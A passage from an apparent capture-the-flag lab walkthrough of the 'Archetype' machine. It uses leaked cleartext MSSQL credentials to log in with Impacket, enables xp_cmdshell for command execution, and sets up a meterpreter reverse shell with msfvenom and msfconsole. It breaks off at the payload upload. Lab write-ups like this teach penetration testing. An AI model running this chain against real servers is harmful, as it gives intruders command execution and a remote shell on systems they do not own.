 4. We can see a User ID `sql_svc` with password `M3g4c0rp123` under the host `ARCHETYPE` in cleartext

5. As we got the credentials, we just need **Impacket** tool which includes a python script called `mssqlclient.py` to **connect and authenticate to the MSSQL server**. In Kali, the Impacket is preinstalled.

    ```bash
    locate mssqlclient.py
    cd /usr/share/doc/python3-impacket/examples/
    ```

6. Run the script in the format `domain`/`username`:`password`@`targetIP or name`, we would use *windows authentication* method

    ```
    python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@{TARGET_IP} -windows-auth
    ```

    And we are successfully authenticated to the MSSQL server and get a session of it.

7. Let's run `xp_cmdshell` and try command excution, we will use `powershell -c` for more features rather than regular command prompt

   ```bash
   SQL> enable_xp_cmdshell
   SQL> xp_cmdshell "powershell -c pwd"
   ```

8. Now attempt to get a **stable reverse shell**. Generate a reversed shell by `msfvenom` (`msfvenom -l payloads` to list the payloads it can provide)

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<TUN0_IP> -f exe -o winRevShell.exe
   ```

9. Use `msfconsole` to configure and handle the reverse shell connection (you can run `help search` to *show options* for the search modules function)

    ```bash
    msfconsole
    msf6> use exploit/multi/handler
    msf6 exploit(multi/handler)> set PAYLOAD windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler)> show options
    msf6 exploit(multi/handler)> set LHOST <TUN0_IP>
    msf6 exploit(multi/handler)> run
    ```

    ![](../assets/img/htb-starting-point/18.png)

    Now the handler is ready for reverse connection from the target machine.

10. Let's upload our `winRevShell.exe` by python server.
